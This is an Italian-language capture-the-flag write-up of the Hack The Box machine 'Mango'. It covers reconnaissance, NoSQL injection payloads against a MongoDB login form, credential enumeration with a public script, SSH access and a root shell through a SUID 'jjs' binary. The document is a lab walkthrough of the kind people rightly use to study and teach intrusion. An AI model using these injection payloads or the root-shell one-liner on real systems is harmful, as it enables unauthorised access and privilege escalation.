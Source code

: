 ## Information Gathering

Si comincia con la fase iniziale di Informazion Gathering, con un classico port scan di nmap. Scopro aperte solo la porta 80 e 443 all'interno dell'host 10.10.10.163.

Richiedendo la porta 80 non trovo nulla di interessante, richiedendo la porta 443 (in http) invece mi comunica che il servizio è operato tramite SSL. Quindi richiedo: https://10.10.10.163, scoprendo così un errore al certificato. Lo leggo e scopro nel campo CN un valore interessante: all'interno dell'host sono presenti due VM: mango (la principale) ed anche il servizio "staging-order.mango.htb/".

Ovviamente provando a visitare la macchina indicata non viene rilevata, quindi inserisco dentro il file di hosts il redirect personalizzato: 
```
10.10.10.162 staging-order.mango.htb.
```
Ed ecco rilevato un form di login.

## Web Exploitation

Per associazione, il nome della macchina "Mango" ovviamene mi suona come il nome del DB "Mongo". Mongo è un tipo di DB non-relazionare (quindi non produce strutture dati ma produce JSON).Trattandosi di un DB NoSQL sfrutto le regex per fare Injection con query del tipo:
```
username[$regex]:^<CHAR>.*&password[$ne]:1&login:login
```

Dopo un po di ricerche trovo questo exploit per l' [Username e Password Enumeration in MongoDB](https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration/blob/master/nosqli-user-pass-enum.py) che banalmente fa quello enunciato precedentemente ma tutto automatizzato:

```
nosqli-user-pass-enum.py -u http://HOST/# -up username -pp password -ep <CHOOSE> -op login:login -m POST
```

Tramite l'exploit trovo i seguenti dati:

```
admin:h3[...]5H
mango:t9[...]#2
```

Provo quindi a collegarmi al tab di login con le creds trovate ma non succede nulla.

Quindi provo a collegarmi in ssh con le creds trovate e trovo efficace la seguente combinazione:
```
mango:h3[...]5H
```
Rintraccio l'user flag dentro la cartella dell'utenza "admin" ma non ho i permessi per aprirla.

## Privilege Escalation

### User1

Cerco qualche password salvata ma non trovo nulla. Ad un certo punto penso che la seconda password trova in DB possa servire a qualcosa quindi banalmente faccio:
```
su admin
```

Inserisco la seconda password (t9[...]#2) ed eccomi entrato in sessione con l'utenza Admin! Apro l'user flag!

### Root

Mi sposto in /tmp e grazie a Nc mi sposto una copia di LinEnum da locale. La eseguo e trovo, fra tutti i test con esito negativo ([-]), un binario con suid/guid positivo:

```
[+] Possibly interesting SUID files:
-rwsr-sr-- 1 root admin 10352 Jul 18  2019 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```

Quindi mi consulto con GTFOBins per capire come sfruttare il SUID di jjs per effettuare un privilege escalation o leggere il file root.txt.

Ho trovato entrambe le opzioni e, non avendo altro da fare, ho letto il root.txt sia da root shell generata da:

```
echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | ./jjs
```

E sia in chiaro dalla console di jjs con i comandi:

```
var BufferedReader = Java.type("java.io.BufferedReader");
var FileReader = Java.type("java.io.FileReader");
var br = new BufferedReader(new FileReader("<FILE_PATH>"));
while ((line = br.readLine()) != null) { print(line); }

```


That's All! 
